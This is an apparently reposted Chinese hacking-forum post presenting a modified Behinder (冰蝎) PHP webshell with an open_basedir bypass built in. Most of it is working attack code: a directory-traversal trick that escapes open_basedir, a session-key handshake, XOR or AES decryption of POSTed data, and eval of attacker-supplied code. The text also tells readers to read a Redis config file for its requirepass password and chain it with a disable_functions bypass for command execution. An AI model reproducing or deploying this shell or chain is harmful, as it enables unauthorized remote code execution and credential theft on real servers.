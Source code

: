 ## 冰蝎 bypass open_basedir 的马

### 作者：https://www.t00ls.net/space.php?uid=7785

## 内容

今天看了下：https://www.t00ls.net/thread-56298-1-1.html
突然想到为什么不在把 bypass open_basedir 加到马里呢。。。
然后。就把冰蝎的马加了一个bypass。。。马还是原马。
测试了一下是ok的。。。

要是服务器上有redis 直接 /www/server/redis/redis.conf 搜索 requirepass 找密码

然后 用 https://www.t00ls.net/thread-56217-1-1.html bypass disable_functions 执行命令。

然后一条龙。。。嘿嘿嘿。

```php
<?php
@error_reporting(0);
session_start();

function bypass_open_basedir(){
        if(!file_exists('bypass_open_basedir')){
                mkdir('bypass_open_basedir');
        }
        chdir('bypass_open_basedir');
        @ini_set('open_basedir','..');
        @$_Ei34Ww_sQDfq_FILENAME = dirname($_SERVER['SCRIPT_FILENAME']);
        @$_Ei34Ww_sQDfq_path = str_replace("\\",'/',$_Ei34Ww_sQDfq_FILENAME);
        @$_Ei34Ww_sQDfq_num = substr_count($_Ei34Ww_sQDfq_path,'/') + 1;
        $_Ei34Ww_sQDfq_i = 0;
        while($_Ei34Ww_sQDfq_i < $_Ei34Ww_sQDfq_num){
                @chdir('..');
                $_Ei34Ww_sQDfq_i++;
        }
        @ini_set('open_basedir','/');
        @rmdir($_Ei34Ww_sQDfq_FILENAME.'/'.'bypass_open_basedir');
}
bypass_open_basedir();

if (isset($_GET['pass']))
{
    $key=substr(md5(uniqid(rand())),16);
    $_SESSION['k']=$key;
    print $key;
}
else
{
    $key=$_SESSION['k'];
        $post=file_get_contents("php://input").'';
        if(!extension_loaded('openssl'))
        {
                $t="base64_"."decode";
                $post=$t($post."");
                
                for($i=0;$i<strlen($post);$i++) {
                             $post[$i] = $post[$i]^$key[$i+1&15]; 
                            }
        }
        else
        {
                $post=openssl_decrypt($post, "AES128", $key);
        }
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
    @eval($params);
}
?>

```

### 原帖：https://www.t00ls.net/thread-56301-1-1.html

### 欢迎大家前往土司投稿！